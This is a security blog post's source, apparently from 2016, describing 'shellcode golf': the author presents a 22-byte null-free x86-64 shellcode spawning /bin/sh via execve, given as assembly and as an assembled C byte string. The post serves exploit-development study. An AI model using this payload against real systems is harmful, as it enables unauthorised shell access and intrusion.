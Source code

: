 ```yaml
---
layout: post
title: "Even shorter x86-64 shellcode"
category: Security
date: 2016-04-27
tags:
  - Security
  - Shellcode
  - Exploitation
---
```


So about two years ago, I put together the [shortest x86-64 shellcode for
`execve("/bin/sh",...);`](/2014/06/05/minimal-x86-64-shellcode-for-binsh/) that I could.  At the time, it was 25 bytes, which I
thought was pretty damn good.  However, I'm a perfectionist and so I spent some
time before work this morning playing shellcode golf.  The rules of my shellcode
golf are pretty simple:

* The shellcode must produce the desired effect.
* It doesn't have to do things cleanly (i.e., segfaulting after is OK, as is
  using APIs in unusual ways, so long as it works)
* It can assume the stack pointer is at a place where it will not segfault and
  it will not overwrite the shellcode itself.
* No NULLs.  While there might be other constraints, this one is too common to
  not have as a default.

So, spending a little bit of time on this, I came up with the following 22 byte
shellcode:

~~~
BITS 64

xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
syscall
~~~

Assembled, we get:

~~~
char shellcode[] = "\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05";
~~~

This is shorter than anything I could find on shell-storm or other shellcode
repositories.  If you know of something shorter or think you can do better, let
me know!

